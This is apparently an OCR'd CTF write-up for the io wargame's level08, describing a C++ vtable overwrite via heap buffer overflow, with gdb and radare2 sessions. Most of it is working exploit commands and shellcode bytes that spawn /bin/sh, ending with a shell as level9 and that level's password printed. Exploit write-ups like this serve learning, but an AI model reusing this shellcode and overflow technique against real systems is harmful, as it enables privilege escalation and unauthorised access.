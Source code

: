 
```
$ export NOP_AND_SHELLCODE=$(python -c "print '\x90' * 130000")$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")

(gdb) run $(python -c "print 'A' * 108 + '\xde\xad\xbe\xef'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level08 $(python -c "print 'A' * 108 + '\xde\xad\xbe\xef'")

Breakpoint 1, 0x08048697 in main ()
(gdb) x/s *((char **)environ)
0xbffe024e:	"XDG_SESSION_ID=299954"
(gdb) x/4w 0xbffe0afe
0xbffe0afe:	U'\x90909090' <repeats 200 times>...
0xbffe0e1e:	U'\x90909090' <repeats 200 times>...
0xbffe113e:	U'\x90909090' <repeats 200 times>...
0xbffe145e:	U'\x90909090' <repeats 200 times>...


```
We can overwrite the `virtual int operator+` during the `five.setAnnotation(argv[1]);` call so that when `return six + five;` happens, it jumps to our method instead.

It looks like we can't just throw the location of our environment variable NOP slide + shellcode because of:
```
|           0x56603274      e8c7000000     call sym.Number::setAnnotation_char ;[3]                                                                                                     
|           0x56603279      83c410         add esp, 0x10                                                                                                                                |           0x5660327c      8b45d8         mov eax, dword [local_28h]                                                                                                                   
|           0x5660327f      8b00           mov eax, dword [eax]                                                                                                                         
|           ;-- eip:                                                                                                                                                                    |           0x56603281      8b00           mov eax, dword [eax]                                                                                                                         
|           0x56603283      83ec08         sub esp, 8                                                                                                                                   
|           0x56603286      ff75dc         push dword [local_24h]                                                                                                                       |           0x56603289      ff75d8         push dword [local_28h]                                                                                                                       
|           0x5660328c      ffd0           call eax                           
```
It looks a lot like the `mov eax, dword [eax]` means that `eax` must be overwritten with an address in the heap (somewhere we can actually write to). Otherwise, attempting to write to the location where `eax` points (say in static section or elsewhere) will cause a segmentation fault.

So we want to overwrite the heap with enough padding to overwrite the function pointer, then a BUNCH of NOPs and then our shellcode 
`0xbffe022a` is definitely not in the heap...
seems like it could be a location in the heap where we could jump to
`0x0804eae0` is in the heap, but ???ebp-0x2

You need to overwrite the pointer to the class' vtable, and then write the address of your NOP+shellcode to the location that your pointer points to
level8@io:~$ r2 -d /levels/level08 $(python -c "print 'A' * 108 + '\xe0\xea\x04\x08' + '\x5e\x14\xfe\xbf' * 1024")

$(python -c "print 'A' * 108 + '\xe0\xea\x04\x08' + '\x5e\x14\xfe\xbf' * 1024")

new attempt at shellcode:
```
python -c "print '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80'"
```

WIN:
```
level8@io:~$ export NOP_AND_SHELLCODE=$(python -c "print '\x90' * 1024 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'")
level8@io:~$ /levels/level08 $(python -c "print 'A' * 108 + '\xe0\xea\x04\x08' + '\x3e\xfd\xff\xbf' * 1024")
sh-4.3$ id
uid=1008(level8) gid=1008(level8) euid=1009(level9) groups=1008(level8),1029(nosu)
sh-4.3$ whoami
level9
sh-4.3$ cat /home/level9/.pass
ise9uHhjOhZd0K4G
```

Issue was just with shellcode. using the original aleph one shellcode worked :tada:
https://insecure.org/stf/smashstack.html
